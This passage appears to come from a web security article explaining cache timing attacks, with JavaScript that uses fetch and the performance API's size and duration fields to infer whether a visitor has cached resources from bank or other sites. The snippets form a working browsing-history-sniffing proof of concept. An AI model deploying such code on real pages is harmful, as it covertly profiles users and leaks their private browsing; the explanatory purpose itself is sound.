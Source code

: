 For this reason, techniques to determine whether a page is cached through Timing Attacks emerged, and using this, the following information can be inferred:

- Browsing history inference: Check whether users visited specific websites (banks, SNS, etc.) from attacker sites
- User profiling: Infer interests, political inclinations, shopping patterns, etc. from cached resources
- Personal information leakage: Estimate specific service usage or login status

```jsx
const bankSites = [
  "https://bank1.com/logo.png",
  "https://bank2.com/style.css",
  "https://bank3.com/script.js",
];

bankSites.forEach(async (url) => {
  const visited = await detectCache(url);
  if (visited) console.log(`user visited ${url}`);
});
```

This belongs to important security issues that can lead to actual privacy violations. As a method to detect whether a specific page is cached through Timing Attack, if read permissions for `Cross-Origin` are not blocked, cache presence can be determined as follows.

```jsx
async function ifCached(url) {
  let href = new URL(url).href;
  await fetch(href, { mode: "no-cors", credentials: "include" });
  await new Promise((r) => setTimeout(r, 200));
  let res = performance.getEntriesByName(href).pop();
  console.log("Request duration: " + res.duration);
  // Check if is 304
  if (
    res.encodedBodySize > 0 &&
    res.transferSize > 0 &&
    res.transferSize < res.encodedBodySize
  )
    return true;
  if (res.transferSize > 0) return false;
  if (res.decodedBodySize > 0) return true;
  // Use duration if theirs no Timing-Allow-Origin header
  return res.duration < 10;
}

ifCached("https://example.org");
```

As above, by checking response data's `encodedBodySize`, `transferSize`, `decodedBodySize`, etc., you can determine whether the response from a specific page is a cached response. Also, by measuring the time from network request to response and comparing it, you can judge whether it's a cached response.

However, to check whether a specific response is a cached response, there's a prerequisite that read permissions for `Cross-Origin` must not be blocked. If these permissions are blocked, cache presence cannot be checked for `Cross-Origin` pages.
